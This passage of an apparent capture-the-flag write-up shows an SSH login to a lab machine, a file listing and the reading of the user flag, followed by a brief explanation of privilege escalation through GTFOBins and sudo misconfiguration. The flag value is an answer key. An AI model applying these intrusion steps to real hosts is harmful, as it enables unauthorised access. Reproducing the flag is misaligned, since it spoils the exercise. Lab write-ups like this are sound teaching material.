ED25519 key fingerprint is SHA256:0CnzVewKlFWXD0Ne/HK7pmvfqlsMrqeZo739OrunXQQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.123.251' (ED25519) to the list of known hosts.
zeamkish@10.10.123.251's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-1039-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Aug 22 14:17:06 UTC 2024

  System load:  0.0               Processes:             124
  Usage of /:   7.1% of 58.09GB   Users logged in:       0
  Memory usage: 16%               IPv4 address for eth0: 10.10.123.251
  Swap usage:   0%

 * Ubuntu Pro delivers the most comprehensive open source security and
   compliance features.

   https://ubuntu.com/aws/pro

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Sun Jul  2 17:27:46 2023 from 10.10.83.109
zeamkish@ip-10-10-123-251:~$ ls -la
total 36
drwxr-xr-x 3 zeamkish zeamkish 4096 Jul  6  2023 .
drwxr-xr-x 4 root     root     4096 Jun 30  2023 ..
-rw-rw-r-- 1 zeamkish zeamkish    5 Jul  6  2023 .bash_history
-rw-r--r-- 1 zeamkish zeamkish  220 Jun  8  2023 .bash_logout
-rw-r--r-- 1 zeamkish zeamkish 3771 Jun  8  2023 .bashrc
drwx------ 2 zeamkish zeamkish 4096 Jun  8  2023 .cache
-rw-r--r-- 1 zeamkish zeamkish  807 Jun  8  2023 .profile
-rw-r----- 1 zeamkish zeamkish   27 Jun  8  2023 flag.txt
-rw-rw-r-- 1 root     zeamkish   34 Jun 11  2023 ssh_creds.txt
zeamkish@ip-10-10-123-251:~$ cat flag.txt 
THM{USER_FLAG_1231_EXPOSE}
zeamkish@ip-10-10-123-251:~$
```

💡 なぜ有効か  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## 認証情報

```text
認証情報なし。
```

## まとめ・学んだこと

### 4.Overview

---




## 参考文献

- nmap
- rustscan
- ffuf
- sqlmap
- nc
- sudo
- ssh
- cat
- find
- php
- gtfobins
